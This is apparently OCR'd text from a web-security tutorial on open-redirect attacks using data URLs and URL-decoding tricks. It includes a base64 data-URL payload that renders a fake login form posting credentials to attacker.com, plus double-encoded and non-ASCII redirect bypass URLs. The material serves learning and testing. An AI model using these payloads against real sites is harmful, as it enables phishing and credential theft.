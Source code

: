 `data:[<media type>][;base64],<data>`

- `<media type>` is optional and specifies the MIME type of the data.
- The `base64` flag indicates if the data is encoded in base64.
- `<data>` is the actual content, which can be text, HTML, JavaScript, etc.

For instance, this data URL presents a simple HTML page displaying "Hello, world!":

`data:text/html,<h1>Hello, world!</h1>`

If a website fails to properly validate destination URLs, an attacker can exploit a data URL to redirect users to a malicious page resembling the legitimate site. For instance, given a redirect parameter like:

`https://example.com/login?redirect=https://example.com/dashboard`

An attacker can manipulate it to:

`https://example.com/login?redirect=data:text/html;base64,PGh0bWw+PGhlYWQ+PHRpdGxlPkV4YW1wbGUgRGFzaGJvYXJkPC90aXRsZT48L2hlYWQ+PGJvZHk+PGgxPlBsZWFzZSBsb2cgaW4gYWdhaW48L2gxPjxmb3JtIGFjdGlvbj0iaHR0cHM6Ly9hdHRhY2tlci5jb20vbG9naW4iIG1ldGhvZD0icG9zdCI+PHBsYWJlbD5Vc2VybmFtZTo8L3BsYWJlbD48aW5wdXQgdHlwZT0idGV4dCIgbmFtZT0idXNlcm5hbWUiPjwvaW5wdXQ+PHBsYWJlbD5QYXNzd29yZDo8L3BsYWJlbD48aW5wdXQgdHlwZT0icGFzc3dvcmQiIG5hbWU9InBhc3N3b3JkIj48L2lucHV0PjxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJMb2dpbiI+PC9pbnB1dD48L2Zvcm0+PC9ib2R5PjwvaHRtbD4=`

This data URL contains a base64-encoded HTML page that mimics the example dashboard and asks the user to log in again. The form action points to `attacker.com/login`, where the attacker can capture the user’s credentials. The user may not notice the difference between the real and fake dashboard, and may enter their credentials again.

## Exploiting URL Decoding

URLs transmitted over the internet are constrained to ASCII characters, necessitating URL encoding for characters outside this range. URL encoding involves converting a character into a percentage sign followed by two hex digits, like `%2f` for a slash character.

- Validators and browsers decode URL-encoded characters before processing URLs.
- Mismatches in decoding between validators and browsers can be exploited for open redirects.

### Double Encoding

- Double or triple URL-encode specific special characters in payloads.
- For example, URL-encode a slash as `%2f`: `https://example.com%2f@attacker.com`.
- Double URL-encode the slash: `https://example.com%252f@attacker.com`.
- Triple URL-encode the slash: `https://example.com%25252f@attacker.com`.

### Non-ASCII Characters

- Exploit inconsistencies in non-ASCII character decoding by validators and browsers.
- Example with `%ff` representing ÿ, a non-ASCII character:
  - Validator: example.com domain, attacker.comÿ subdomain.
  - Browser might decode non-ASCII as '?', navigating to attacker.com: `https://attacker.com?.example.com`.
- Browsers often attempt to find similar characters:
  - Validator: example.com domain with `%E2%95%B1` symbol.
  - Browser converts symbol to a slash, making attacker.com domain: `https://attacker.com/.example.com`.
